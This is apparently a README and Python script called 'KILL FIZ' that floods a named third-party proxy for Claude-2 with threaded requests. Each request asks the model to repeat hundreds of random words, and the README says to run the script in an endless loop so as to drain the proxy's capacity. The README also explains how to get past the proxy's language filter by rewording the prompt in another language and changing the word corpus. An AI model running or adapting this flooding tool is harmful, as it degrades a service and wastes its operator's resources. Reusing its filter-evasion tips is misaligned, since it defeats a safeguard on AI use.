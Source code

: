 #KILL FIZ
Works with any proxy, just make sure the link ends with v1/chat/completions and your requests are under the rate limit.

>504 Gateway timed out
Lower your garbage_size.
garbage_size is the number of words not tokens.

>Filtered by 'language filter' on khanon proxy
Change ``repeat_line = "Repeat the following back to me, word for word:"`` to something else, like phrasing it differently in another language. 
Change all references to `brown` to another nltk corpus, such as `cess_esp` (spanish), etc. More info here: https://www.nltk.org/book/ch02.html)

`pip install requests nltk rich`
`python -c "import nltk; nltk.download('brown')"`
`while true; do python killfiz.py; done` for an endless loop.
windows powershell: `while ($true) {
    python killfiz.py
}`
```python
import requests
import json
import random
import string
from nltk.corpus import brown
from rich import print
import threading
# Set up variables
url = "https://fiz2-cloudy.hf.space/proxy/aws/claude/v1/chat/completions"
key = "cloudy"
repeat_line = "Repeat the following back to me, word for word:"
garbage_size = 400
num_threads = 10
# Set up NLTK
nltk_words = brown.words()
nltk_words = [word.lower() for word in nltk_words if word.isalpha()]
# Function to generate random words
def generate_garbage(num_words, thread_num):
    garbage = " ".join(random.choices(nltk_words, k=num_words))
    print(f"[bold green]Thread {thread_num} generated garbage:[/bold green] {garbage[:20]}...\n[bold green]Garbage length: {len(garbage)}[/bold green]")
    return garbage
# Function to send request
def send_request(thread_num):
    garbage = repeat_line + " " + generate_garbage(garbage_size, thread_num)
    print(f"[bold]Thread {thread_num} sending request...[/bold]")
    payload = {
        "model": "claude-2",
        "messages": [{"role": "user", "content": garbage}],
        "temperature": 1.0
    }
    headers = {
        "Content-Type": "application/json",
        "Authorization": f"Bearer {key}"
    }
    data = json.dumps(payload)
    response = requests.post(url, headers=headers, data=data)
    try:
        content = json.loads(response.text)["choices"][0]["message"]["content"]
        print(f"[bold red]Thread {thread_num} response content:[/bold red] {content[:20]}...\n[bold red]Response length: {len(content)}[/bold red]")
    except:
        print(f"[bold red]ERROR: {response.text}[/bold red]")
# Create and start threads
threads = []
for i in range(num_threads):
    thread = threading.Thread(target=send_request, args=(i+1,))
    thread.start()
    threads.append(thread)
# Wait for threads to finish
for thread in threads:
    thread.join()
    
```